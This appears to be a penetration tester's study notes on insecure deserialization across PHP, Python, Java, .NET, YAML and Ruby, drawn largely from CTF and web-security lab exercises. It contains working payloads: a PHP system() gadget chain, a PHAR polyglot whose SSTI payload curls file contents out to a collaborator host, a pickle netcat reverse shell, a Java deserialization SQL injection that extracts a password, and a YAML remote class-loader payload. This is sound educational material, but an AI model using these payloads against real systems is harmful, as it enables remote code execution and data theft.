



# What are serialization and deserialization?

**Serialization** is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential stream of bytes. Serializing data makes it much simpler to:

- Write complex data to inter-process memory, a file, or a database
- Send complex data, for example, over a network, between different components of an application, or in an API call

Crucially, when serializing an object, its state is also persisted. In other words, the object's attributes are preserved, along with their assigned values.



**Deserialization** is the process of restoring this byte stream to a fully functional replica of the original object, in the exact state as when it was serialized. The website's logic can then interact with this deserialized object, just like it would with any other object.

>[!Caution]
>Based on the programming language, the **serialization** process can also be named **marshalling** (Ruby/Java) or **pickling** (Python)

# Insecure Deserialization

Insecure deserialization is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized objects in order to pass harmful data into the application code.

It is even possible to replace a serialized object with an object of an entirely different class. Alarmingly, objects of any class that is available to the website will be deserialized and instantiated, regardless of which class was expected. For this reason, insecure deserialization is sometimes known as an "**object injection**" vulnerability.

An object of an unexpected class might cause an exception. By this time, however, the damage may already be done. Many deserialization-based attacks are completed **before** deserialization is finished. This means that the deserialization process itself can initiate an attack, even if the website's own functionality does not directly interact with the malicious object. For this reason, websites whose logic is based on strongly typed languages can also be vulnerable to these techniques.

## PHP

PHP is known to be one of the languages most vulnerable to deserialization and Object Injection because it uses “[magic method](https://www.php.net/manual/en/language.oop5.magic.php)”, special methods which override PHP's default's action when certain actions are performed on an object.

**PHP serialization format**

The syntax generally follows the pattern of one-letter code of the variable type, followed by a colon, followed by the variable value, followed by a semicolon.

| Type | Serialization examples |
| --- | --- |
| Null | N; |
| Boolean | b:1;b:0; |
| Integer | i:685230;i:-685230; |
| Floating point | d:685230.15;d:INF;d:-INF;d:NAN; |
| String | s:6:"A to Z"; |
| Associative array | a:4:{i:0;b:1;i:1;N;i:2;d:-421000000;i:3;s:6:"A to Z";}a:2:{i:42;b:1;s:6:"A to Z";a:3:{i:0;i:1;i:1;i:2;i:2;i:3;}} |
| Object | O:8:"stdClass":2:{s:4:"John";d:3.14;s:4:"Jane";d:2.718;} |
| Reference | a:2:{i:0;O:10:"HelloWorld":0:{}i:1;r:2;} r:2; is the reference |
| Custom | C:19:"SplDoublyLinkedList":33:{i:0;:O:10:"HelloWorld":0:{}:i:42;} |

>[!warning] Common sinks and point of warning
>- `unserialize()`
>- `__unserialize()`
>- Objects that implement the `Serializable` interface contain two methods `serialize` and `unserialize`. When serializing such an object a string of the following format will be returned: `C:<number of characters in the class name>:"<class name>":<length of the output of the serialize method>:{<output of the serialize method>}`

**Magic method**

Magic method used with **serialization** (`serialize()`, `__serialize()`):

- `__sleep()`: is called when an object is serialized and must be returned to array

Magic method used with **deserialization** (`unserialize()`, `__unserialize()`):

- `__wakeup()`: is called when an object is deserialized.
- `__destruct()`: is called when PHP script end and object is destroyed.
- `__toString()`: uses object as string but also can be used to read file or more than that based on function call inside it.

>[!danger]
>Also **[Autoload Classes](https://www.php.net/manual/en/language.oop5.autoload.php)** may also be dangerous!

### Classis PHP Object Injection vulnerability

Example from [Toxic](../../Play%20ground/CTFs/Toxic.md)

```php
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID',
        base64_encode(serialize($page)),
        time()+60*60*24,
        '/'
    );
}

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

```php
<?php
class PageModel
{
    public $file;

    public function __destruct()
    {
        include($this->file);
    }
}
```

If we provide an insecure serialized object to the `unserialize($cookie);` we are able inject a new PHP object that when destructed (`__destruct()`) will execute an arbitrary include, providing Local File Inclusion (`include($this->file);`)

The PoC cookie value would be something like this:

```php
<@base64>O:9:"PageModel":1:{s:4:"file";s:33:"php://filter/resource=/etc/passwd";}<@/base64>
```

### Custom PHP Object Injection  chain

Class code and gadgets:
```php
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    ...

	// __wakeup is our kick-off gadget
    public function __wakeup() {
        $this->build_product();
    }

	// build_product do not properly check the desc object type
    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

	// __get is utilized for reading data from inaccessible (protected or private) or non-existing properties.
    public function __get($name) { 
        return call_user_func($this->callback, $name); // call_user_func allows to execute arbitrary commands
    }
}
```

PoC:
```php
<?php

include('poc.php');


$obj = new CustomTemplate();
$obj->desc = new DefaultMap("system"); // set the variable "public" in the reference class
$obj->default_desc_type = "id"; // set the variable "public" in the reference class

$c = serialize($obj);
echo $c;
echo "\n\n";
$c_e = base64_encode(serialize($obj));
echo $c_e;
echo "\n\n";
unserialize($c);

?>

$ php asd.php
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:2:"id";s:4:"desc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:6:"system";}}

TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTc6ImRlZmF1bHRfZGVzY190eXBlIjtzOjI6ImlkIjtzOjQ6ImRlc2MiO086MTA6IkRlZmF1bHRNYXAiOjE6e3M6MjA6IgBEZWZhdWx0TWFwAGNhbGxiYWNrIjtzOjY6InN5c3RlbSI7fX0=

uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),115(bluetooth),125(scanner),141(wireshark),143(kaboxer)

```

### Bypass checks on serialized object exploiting parser differentials

- [WAFfle-y Order](../../Play%20ground/CTFs/WAFfle-y%20Order.md)

### PHAR deserialization

In PHP it is sometimes possible to exploit deserialization even if there is no obvious use of the `unserialize()` method. This can be achieved though the `phar://` wrapper, which provides a stream interface for accessing PHP Archive (`.phar`) files. Those files contain **serialized metadata** that are implicitly deserialized when filesystem operations are performed on the `phar://` stream.

>[!tip]
>Dangerous filesystem methods, such as `include()` or `fopen()`, are likely protected by some kind of counter-measures. However, methods such as `file_exists()`, which are not so overtly dangerous, may not be as well protected.
>Here is a list of filesystem functions that trigger phar deserialization:
>
>```
copy                file_exists         file_get_contents   file_put_contents   
file                fileatime           filectime           filegroup           
fileinode           filemtime           fileowner           fileperms           
filesize            filetype            fopen               is_dir              
is_executable       is_file             is_link             is_readable         
is_writable         lstat               mkdir               parse_ini_file      
readfile            rename              rmdir               stat                
touch               unlink
>```

>[!info] Pre-requisites:
>- A **file upload primitive** allowing to upload a `PHAR` files or a **polyglot file** interpreted as it
>- A filesystem method such as `include()`, `fopen()` or `file_exists()` into which the `phar://` stream is passed

As long as the class of the object is supported by the website, both the `__wakeup()` and `__destruct()` magic methods can be invoked in this way, allowing you to potentially kick off a gadget chain using this technique.

References:
- [Top 10 web hacking techniques of 2018](https://portswigger.net/research/top-10-web-hacking-techniques-of-2018#6)
- [PHAR Deserialization](https://portswigger.net/web-security/deserialization/exploiting#phar-deserialization)

>[!example]
>Server disclosed the following error: 
> ```http
> GET https://0a7f00910463d28d813a4823000200c6.web-security-academy.net/cgi-bin/avatar.php?avatar=asd:///etc/passwd HTTP/1.1
> 
>PHP Warning:  file_exists(): Unable to find the wrapper "gile" - did you forget to enable it when you configured PHP? in /home/carlos/cgi-bin/avatar.php on line 10 - Not Found
>```

*Blog.php~*
```php
<?php

require_once('/usr/local/envs/php-twig-1.19/vendor/autoload.php'); // disclosed twig-1.19

class Blog {
    public $user;
    public $desc;
    private $twig;

    public function __construct($user, $desc) {
        $this->user = $user;
        $this->desc = $desc;
    }

    public function __toString() {
        return $this->twig->render('index', ['user' => $this->user]);
    }

    public function __wakeup() { // SSTI if we are able to control desc and "wakeup" an object
        $loader = new Twig_Loader_Array([
            'index' => $this->desc,
        ]);
        $this->twig = new Twig_Environment($loader);
    }

    public function __sleep() {
        return ["user", "desc"];
    }
}

?>
```

*CustomTemplate.php~*
```php
<?php

class CustomTemplate {
    private $template_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
    }

    private function isTemplateLocked() {
        return file_exists($this->lockFilePath());
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lockFilePath(), "") === false) {
                throw new Exception("Could not write to " . $this->lockFilePath());
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() { // kick-off gadget initiating the chain
        // Carlos thought this would be a good idea
        @unlink($this->lockFilePath());
    }

    private function lockFilePath()
    {
        return 'templates/' . $this->template_file_path . '.lock';
    }
}
?>
```

Poc exploiting a [Server Side Template Injection (SSTI)](Server%20Side%20Template%20Injection%20(SSTI).md) combined with the deserialization.vGenerated a PHP/JPEG polyglot image to bypass file upload restrictions still having a valid PHP [^polyglot] :

[^polyglot]: https://github.com/kunte0/phar-jpg-polyglot/tree/master

```php
<?php

function generate_base_phar($o, $prefix){
    ...
}

function generate_polyglot($phar, $jpeg){
    ...
}


// add object of any class as meta data
class Blog {};
class CustomTemplate {};
$object = new CustomTemplate();
$blog = new Blog();
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("curl http://srnvx8ptwvc6xlhwtdfvn7jds4yvmlaa.oastify.com/?$(cat /home/carlos/cgi-bin/avatar.php|base64 -w0)")}}{{_self.env.getFilter("cat /home/carlos/cgi-bin/avatar.php|base64 -w0")}}';
$blog->user = 'user';
$object->template_file_path = $blog;


// config for jpg
$tempname = 'temp.tar.phar'; // make it tar
$jpeg = file_get_contents('in.jpg');
$outfile = 'out.jpg';
$payload = $object;
$prefix = '';

var_dump(serialize($object));


// make jpg
file_put_contents($outfile, generate_polyglot(generate_base_phar($payload, $prefix), $jpeg));

/*
// config for gif
$prefix = "\x47\x49\x46\x38\x39\x61" . "\x2c\x01\x2c\x01"; // gif header, size 300 x 300
$tempname = 'temp.phar'; // make it phar
$outfile = 'out.gif';

// make gif
file_put_contents($outfile, generate_base_phar($payload, $prefix));

*/
```

Deserialized the uploaded file and executed arbitrary code:
`https://0a4e005b03cdec9d80802bd800e20052.web-security-academy.net/cgi-bin/avatar.php?avatar=phar://wiener`

Exfiltrated *avatar.php*:
```php
<?php

require_once('CustomTemplate.php');
require_once('Blog.php');

chdir('../avatars/');

$avatar_file_path = $_GET['avatar'] . '.jpg';

if (file_exists($avatar_file_path)) {
    if (strpos($_GET['avatar'], "\\") !== false || strpos($_GET['avatar'], "/") !== false || strpos($_GET['avatar'], ".") !== false) {
        throw new Exception("File name is invalid: " . $avatar_file_path);
    }
    header("content-type: image/jpeg");
    readfile($avatar_file_path); // not checking for PHAR
} else {
    header("Status: 404 Not Found");
    echo "Not Found";
}

?>
```

## Python

### Pickle

Pickle is a Python module used to serialize and deserialize objects. As also said within the official documentation, pickle is not secure. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling through the use of the `__reduce__()` method.

- [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Example from [**baby website rick**](https://www.notion.so/baby-website-rick-6f001c5e8ffa48eab3f9ab57073a876f) 

```python
#!/usr/bin/env python
import pickle
import pickletools
import base64
import os
import subprocess

class anti_pickle_serum(object):
	def __reduce__(self):
		cmd = ['cat', 'flag_wIp1b']
		#return os.system, (cmd,)
		return subprocess.check_output, (cmd,)

exploit_obj = anti_pickle_serum()
raw_pickle = pickle.dumps({"serum" : exploit_obj}, protocol=0)

optimed_pickle = pickletools.optimize(raw_pickle)
pickletools.dis(optimed_pickle)

payload = base64.b64encode(raw_pickle)
#print "Payload: "+payload
print(payload)
```

Example from [DevOops](https://www.notion.so/DevOops-328e4135b49d4c9aac1687410b4d6204) 

```python
def uploaded_file(filename):
    return send_from_directory(Config.UPLOAD_FOLDER,
                               filename)

@app.route("/")
def xss():
    return template('index.html')

@app.route("/feed")
def fakefeed():
   return send_from_directory(".","devsolita-snapshot.png")

@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']

## TODO: VERY important! DISABLED THIS IN PRODUCTION
#app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
# TODO: Replace run-gunicorn.sh with real Linux service script
# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')

if __name__ == "__main__":
  app.run(host='0.0.0,0', Debug=True)
```

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

## Java

Java (and some other languages) uses binary serialization formats. Serialized Java objects always begin with the same bytes:
- `ac ed` in hexadecimal 
- `rO0` in Base64

>[!warning] Sinks:
>- `java.io.Serializable`
>- `readObject()`

### Custom Java deserialization chain

1. After a login I'm provided with the following cookie:
```
rO0ABXNyAC9sYWIuYWN0aW9ucy5jb21tb24uc2VyaWFsaXphYmxlLkFjY2Vzc1Rva2VuVXNlchlR/OUSJ6mBAgACTAALYWNjZXNzVG9rZW50ABJMamF2YS9sYW5nL1N0cmluZztMAAh1c2VybmFtZXEAfgABeHB0ACBtaHVzN2thMXQzN2VzNHN1YnI1ZjZuNjQyb2thZnh3N3QABndpZW5lcg==
```


We can easily recognize it's a Java Object (it starts with `rO0` and contains different references to some Java elements).

2. The web application discloses inside a comment a backup path whose main directory has indexing enabled, providing us with the access to the actual source code:
```html
</section>
<!-- <a href=/backup/AccessTokenUser.java>Example user</a> -->
</div>
```

*productTemplate.java*
```java
package data.productcatalog;

import common.db.JdbcConnectionBuilder;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        JdbcConnectionBuilder connectionBuilder = JdbcConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "password"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}
```

3. We can notice that the `ProductTemplate` executes a query when it deserializes objects (`readObject`) without validating the `id`. We can deserialize arbitrary objects and exploit this SQL Injection in order to exfiltrate the database contents:

*./Main.java*
```java
import data.productcatalog.ProductTemplate;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        ProductTemplate originalObject = new ProductTemplate("1' ORDER BY 9 LIMIT 1-- -");
        String serializedObject = serialize(originalObject);
        System.out.println("Serialized object: " + serializedObject);

        String obj = "<obj to deserialize>";
        ProductTemplate deserializedObject = deserialize(obj);
        System.out.println("Deserialized data id: " + deserializedObject.getId());
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```

*./data/productcatalog/ProductTemplate.java*
```java
package data.productcatalog;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;
    private final String id;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    public String getId()
    {
        return id;
    }
}
```

Generate the object and enumerated the number of columns, confirming the SQL Injection
```bash
$ javac Main.java && java Main
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAGTEnIE9SREVSIEJZIDkgTElNSVQgMS0tIC0=
Deserialized data id: 1\' ORDER BY 9 LIMIT 1-- -

<p class=is-warning>java.io.IOException: org.postgresql.util.PSQLException: ERROR: ORDER BY position 9 is not in select list
Position: 48</p>

$ javac Main.java && java Main
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAGTEnIE9SREVSIEJZIDggTElNSVQgMS0tIC0=
Deserialized data id: 1\' ORDER BY 8 LIMIT 1-- -

<p class=is-warning>java.lang.ClassCastException: Cannot cast data.productcatalog.ProductTemplate to lab.actions.common.serializable.AccessTokenUser</p>
```

4. Exploited an error-based [SQL Injection](SQL%20Injection.md) and exfiltrated the administrator password:
```bash
$ javac Main.java && java Main
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAYicgVU5JT04gU0VMRUNUIE5VTEwsIE5VTEwsIE5VTEwsIENBU1QocGFzc3dvcmQgQVMgbnVtZXJpYyksIE5VTEwsIE5VTEwsIE5VTEwsIE5VTEwgRlJPTSB1c2VycyAtLSAt
Deserialized data id: '\' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users -- -'

<p class=is-warning>java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;lpag2mjh4m8k3qvx87p2&quot;</p>
```

### CVE-2023-34040 - Java Deserialization in Spring Kafka

>Overwriting the `ObjectInputStream` function becomes widespread use for defending against Java deserialization attack. It could make this problem alleviated. When overwriting the `ObjectInputStream`, the `resolveClass` would be hooked and potentially dangerous functions revoking might be found out. [^34040]

[^34040]: [Java Deserialization Vulnerability Still Alive](https://blog.pyn3rd.com/2023/10/20/Java-Deserialization-Vulnerability-Still-Alive/), pyn3rd.com



I could simply escape this verification in a way of encapsulation. After initializing `CustomExceptionClass` , it could be inputted into the instance of `DeserializationExeception` as an argument. Last step is to embed the `CommonCollection6` gadget in a static code block.

In conclusion, the weakness of customized `ObjectInputStream` contributes to Spring Kafka deserialization vulnerability. It only verifies the top layer function in stack.


## dotNET

### XML Serialization

>[!note] References
>[XML serialization](https://learn.microsoft.com/en-us/dotnet/standard/serialization/introducing-xml-serialization)
>[XmlSerializer Class](https://learn.microsoft.com/en-us/dotnet/api/system.xml.serialization.xmlserializer?view=netframework-4.7.2)

Serialization example:
```dotnet
static void MySerializer(MyConsoleText txt)
{
	var ser = new XmlSerializer(typeof(MyConsoleText));
	TextWriter writer = new	StreamWriter("C:\\Users\\Public\\basicXML.txt");
	ser.Serialize(writer, txt);
	writer.Close();
}

public class MyConsoleText
{
	...
}
```

Serialized object:
```xml
<?xml version="1.0" encoding="utf-8"?>
<MyConsoleText xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<text>Hello AWAE</text>
</MyConsoleText>
```

Deserialization example:
```dotNET
using BasicXMLSerializer;
...
static void Main(string[] args)
{
	var fileStream = new FileStream(args[0], FileMode.Open, FileAccess.Read);
	var streamReader = new StreamReader(fileStream);
	XmlSerializer serializer = new XmlSerializer(typeof(MyConsoleText));
	serializer.Deserialize(streamReader);
}
```

>[!warning]
>A developer could decide to make the custom deserializing wrapper a bit more flexible. This would provide the application with the ability to deserialize multiple types of objects. If that's the case and arbitrary objects can be passed to the server, deserialization of untrusted classes can be achieved.

```dotnet
// serializer
xmlElement2.SetAttribute("objectType", myObj.GetType().AssemblyQualifiedName);
XmlSerializer xmlSerializer = new XmlSerializer(myObj.GetType());

// deserializer
string typeName = xmlItem.GetAttribute("objectType");
var xser = new XmlSerializer(Type.GetType(typeName));
```

Serialized object:
```xml
<customRootNode>
<item objectType="MultiXMLSerializer.MyFirstConsoleText, MultiXMLSerializer, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null">
<MyFirstConsoleText xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<text>Serializing first class...</text>
</MyFirstConsoleText>
</item>
</customRootNode>
```

Exploit (an `ExecCMD` is defined as well inside the server source code and uses a `cmd` variable string to execute arbitrary commands):
```xml
<customRootNode>
<item objectType="MultiXMLDeserializer.ExecCMD, MultiXMLDeserializer, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null">
<ExecCMD xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<cmd>calc.exe</cmd>
</ExecCMD>
</item>
</customRootNode>
```

Further references:
- [DotNetNuke Cookie Deserialization Remote Code Execution (RCE) - CVE-2017-9822](https://github.com/murataydemir/CVE-2017-9822)

### Other .NET Deserialization

- [RCE in Progress WS_FTP Ad Hoc via IIS HTTP Modules](../../Readwise/Articles/Assetnote%20-%20RCE%20in%20Progress%20WS_FTP%20Ad%20Hoc%20via%20IIS%20HTTP%20Modules.md)

## YAML

**Old versions** of pyyaml (like SnakeYAML) were vulnerable to deserialisations attacks if you **didn't specify the Loader** when loading something: `yaml.load(data)`

- [SnakeYaml Deserilization exploited](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)
- [Swagger YAML Parser Vulnerability (CVE-2017-1000207 and CVE-2017-1000208)](https://securitylab.github.com/research/swagger-yaml-parser-vulnerability/)

Example from [Ophiuchi](https://www.notion.so/Ophiuchi-c77afe7fb3a2427f8a11b60265ed968b) 

```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.24"]]]]
```

Payload can be found here: [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)


## Ruby

Serialized object example:
```ruby
$ irb
>> class Person
>>   attr_accessor :name
>> end
=> nil

>> p = Person.new
=> #<Person:0x00005584ba9af490>

>> p.name = "Luke Jahnke"
=> "Luke Jahnke"

>> p
=> #<Person:0x00005584ba9af490 @name="Luke Jahnke">

>> Marshal.dump(p)
=> "\x04\bo:\vPerson\x06:\n@nameI\"\x10Luke Jahnke\x06:\x06ET"

>> Marshal.load("\x04\bo:\vPerson\x06:\n@nameI\"\x10Luke Jahnke\x06:\x06ET")
=> #<Person:0x00005584ba995dd8 @name="Luke Jahnke">
```

References:
- [devcraft.io - Building a custom chain](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)
- [elttam](https://www.elttam.com/blog/ruby-deserialization/)
- [Phrack](http://phrack.org/issues/69/12.html)


## NodeJS & JavaScript

See [JavaScript & NodeJS](../Dev,%20scripting%20&%20OS/JavaScript%20&%20NodeJS.md) and [Prototype Pollution](Prototype%20Pollution.md) 

---

# Gadget chains

A "gadget" is a snippet of code that exists in the application that can help an attacker to achieve a particular goal.

>[!important]
>A gadget chain is not a payload of chained methods constructed by the attacker. All of the code already exists on the website. The only thing the attacker controls is the data that is passed into the gadget chain.
This is typically done using a magic method that is invoked during deserialization, sometimes known as a "kick-off gadget".

To identify and construct gadget chains, **source code must be available** or, alternatively, **already existing chains for shared libraries can be used**.

Useful tools are:
- [ysoserial](https://github.com/frohoff/ysoserial)
	- The `URLDNS` chain triggers a DNS lookup for a supplied URL. Most importantly, it does not rely on the target application using a specific vulnerable library and works in any known Java version. 
	- `JRMPClient` is another universal chain that you can use for initial detection. It causes the server to try establishing a TCP connection to the supplied IP address.
- [phpgcc](https://github.com/ambionics/phpggc)
- Existing writeups with known chains
	- [POP Chain in WordPress 6.4.2](../../Readwise/Articles/Ram%20Gall%20-%20PSA%20Critical%20POP%20Chain%20Allowing%20Remote%20Code%20Execution%20Patched%20in%20WordPress%206.4.2.md)

>[!tip] ysoserial in Java 16+
>In Java versions 16 and above, you need to set a series of command-line arguments for Java to run ysoserial:
>```bash
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   [payload] '[command]'
>```

## Creating your own exploit

>[!warning]
>Source code access required

Standard steps for research:
1. Study the source code to **identify a class** that contains a **magic method** that is invoked during deserialization
	1. Assess the code that this magic method executes to **see if it directly does anything dangerous** 
	2. If the magic method is not exploitable on its own, it can serve as your "**kick-off gadget**" for a gadget chain
2. Study any methods that the kick-off gadget invokes
	1. Do any of these do something dangerous with data that you control? 
		1. If not, take a closer look at each of the methods that they subsequently invoke, and so on.
3. Repeat until you read a dead end or you identify a **dangerous sink gadget**
4. Create a valid serialized object studying the class declaration in the source code

>[!tip] Remember
>For languages that supports package, remember to **use the same exact package structure**!

---

# External Resources

- [Insecure deserialization | Web Security Academy](https://portswigger.net/web-security/deserialization)
- [Deserialization](https://book.hacktricks.xyz/pentesting-web/deserialization)
- [Deserialization - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)